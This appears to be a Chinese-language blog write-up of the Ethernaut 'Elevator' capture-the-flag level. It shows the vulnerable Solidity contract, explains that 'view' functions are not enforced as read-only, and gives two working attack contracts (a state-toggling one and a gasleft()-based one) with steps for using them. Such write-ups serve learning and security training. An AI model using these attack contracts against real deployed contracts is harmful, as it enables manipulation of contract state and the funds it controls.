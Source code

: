 ```yaml
---
layout: post
title: Elevator
---
```


# Elevator
关于view、pure等合约标签
```solidity
pragma solidity ^0.4.18;


interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### 代码分析
```solidity
if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```
要使top为true，即building.isLastFloor(_floor)两次调用的结果不同，第一次返回false，第二次返回true。
isLastFloor方法为view方法，该方法应该为只读取state但不修改state，但是这一点并不是强制的，即该方法如果修改
了state也是可以进行调用的。

*注意，也可以使用gasleft()来达成该攻击目的，但不对state进行修改*

### 攻击合约
官方答案：
```solidity
pragma solidity ^0.4.18;

import '../levels/Elevator.sol';

contract ElevatorAttack {
  bool public isLast = true;
  
  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _victim) public {
    Elevator elevator = Elevator(_victim);
    elevator.goTo(10);
  }
}
```
使用gasleft:
```solidity
pragma solidity ^0.4.0;
contract GET {
    address addr;
    uint256 gasAmount = 100361;
    function GET() public {
        addr = 0x3359cdfc05ee2569458f6b6f52e721776cb5205e; //instance address
    }
    
    function isLastFloor(uint256 amount) public view returns(bool) {
        if (gasleft() > amount) {
            return true;
        } else {
            return false;
        }
    }
    
    // You can pass a amount between gasleft() first and gasleft() sencond
    // It will also pass the Elevator
    function send(uint256 amount) public {
        addr.gas(gasAmount).call(bytes4(keccak256("goTo(uint256)")), amount);
    }
}
```
关于amount的选定，需要通过实际的执行，通过etherscan上的geth debugtrace来追踪gas的使用情况，从而选择符合条件
的gas数量。

### 攻击方法
#### 使用官方攻击合约
1. 调用官方攻击合约的attack方法

#### 使用gasleft方法
1. 试调用send()方法（第一次可以传一个较大的值），查询到gas的使用情况（gasLimit保持一致），从而选定amount的值
2. 调用send()方法，传入正确的amount